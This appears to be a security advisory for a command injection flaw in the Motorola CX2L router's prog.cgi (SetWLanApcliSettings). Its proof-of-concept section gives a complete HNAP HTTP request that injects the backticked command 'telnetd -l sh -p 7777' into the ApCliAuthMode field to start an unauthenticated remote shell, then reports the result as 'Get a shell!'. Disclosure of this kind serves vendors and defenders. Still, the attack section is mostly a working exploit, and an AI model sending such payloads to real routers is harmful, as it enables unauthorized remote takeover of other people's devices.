


# Motorola Vulnerability

Vendor:Motorola

Product:CX2L

Version:1.0.1

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in Motorola router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetWLanApcliSettings` function, `ApCliAuthMode、ApCliChannel、ApCliEncrypType、ApCliKeyStr` is directly passed by the attacker, so we can control the `ApCliAuthMode、ApCliChannel、ApCliEncrypType、ApCliKeyStr` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `ApCliAuthMode` as **`telnetd -l sh -p 7777`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.51.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetWLanApcliSettings"
HNAP_AUTH: BA04657DE4DBF5C4CB9221E91B06F3C2 1749737475183
Content-Length: 380
Origin: http://192.168.51.1
Connection: close
Referer: http://192.168.51.1/Home.html
Cookie: work_mode=repeater; uid=B3MYQlE9; PrivateKey=274ABC3CE9489A7F56A25AA68BF7D6C3; timeout=22

{"SetWLanApcliSettings":{"ApCliSsid":"TOTOLINK_A720R","ApCliBssid":"40:ee:15:91:6f:cc","ApCliChannel":"9","ApCliAuthMode":"`telnetd -l sh -p 7777`","ApCliEncrypType":"NONE","wl(0).(0)_bw":"1","ApCliKeyStr":"cc52be2e1e3af6ebb16865d23dd6b824cc52be2e1e3af6ebb16865d23dd6b824cc52be2e1e3af6ebb16865d23dd6b824cc52be2e1e3af6ebb16865d23dd6b824","wl(0).(0)_ssid_hidden":"0","Mode":"2.4G"}}
```


## Result

Get a shell!

<div  align="center"></div>
